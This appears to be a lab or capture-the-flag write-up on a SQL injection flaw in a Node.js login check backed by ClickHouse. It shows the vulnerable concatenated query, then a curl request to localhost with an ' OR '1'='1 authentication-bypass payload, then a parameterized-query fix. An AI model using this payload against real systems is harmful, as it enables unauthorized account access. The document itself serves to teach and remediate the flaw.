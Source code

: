 # sqli101 - part 1

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT count() as c\nFROM user\nWHERE username = '" + username + "' AND password = '" + password + "'")
```

## Exploitation
```bash
curl --request POST \
  --url http://localhost:80/check_credentials \
  --header 'Content-Type: application/json' \
  --data '{
    "username": "admin",
    "password": "'\'' OR '\''1'\''='\''1"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).  
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).  
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT count() as c\nFROM user\nWHERE username = '{username:String}' AND password = '{password:String}'", {'username': username, 'password': password})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
